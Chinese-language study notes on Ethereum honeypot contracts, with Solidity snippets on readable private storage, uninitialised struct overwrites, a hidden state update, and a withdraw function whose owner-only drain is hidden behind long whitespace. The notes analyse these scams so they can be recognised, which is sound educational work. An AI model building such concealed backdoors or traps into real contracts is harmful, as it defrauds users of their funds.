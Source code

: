``` solidity=
    guessHistory.number = _number;
    if (_number == randomNumber)
      msg.sender.transfer(this.balance);
    lastPlayed = now;
  }
}
```

漏洞?: private randomNumber 在鏈上是可以被查到的
https://solidity-by-example.org/hacks/accessing-private-data
 
slot[0] = randomNumber
slot[1] = lastPlayed
...
guessHistory 是 Uninitialised Struct
所以 guessHistory.player->randomNumber
randomNumber 會被overwrite成 msg.sender


https://www.bookstack.cn/read/ethereumbook-en/spilt.16.c2a6b48ca6e1e33c.md
加上 memory or storage guessHistory

Etherscan Blockchain Explorer
---
* Hidden State Update 隱藏狀態更新
``` solidity=
contract Gift_1_ETH {
 bool passHasBeenSet = false;
 ...
 function SetPass(bytes32 hash) payable {
   if (!passHasBeenSet&&(msg.value>=1ether))
     hashPass = hash;
 }
 function GetGift(bytes pass)returns(bytes32){
   if (hashPass == sha3(pass))
      msg.sender.transfer(this.balance);
    return sha3(pass);
  }
  function PassHasBeenSet(bytes32 hash) {
    if (hash==hashPass) passHasBeenSet=true;
  }
}
```
https://etherscan.io/address/0x75041597d8f6e869092d78b9814b7bcdeeb393b4#code

漏洞?: passHasBeenSet 是 false，可以用 SetPass 改 hashPass ，再用 GetGift 領錢出來

Etherscan 可以顯示 Internal transactions 
但不會顯示包含 empty transaction value 的 Internal transaction

* Hidden Transfer 
``` solidity=
contract TestToken {
  ...
  function withdrawAll() payable {
    require(0.5 ether < total);                                                                                                                                                                                                                                                                                                                                                                                 if (block.number > 5040270 ) {if (_owner == msg.sender ){_owner.transfer(this.balance);} else {throw;}}
    msg.sender.transfer(this.balance);
  }
}
```
漏洞?: 看起來是個正常的withdrawAll()
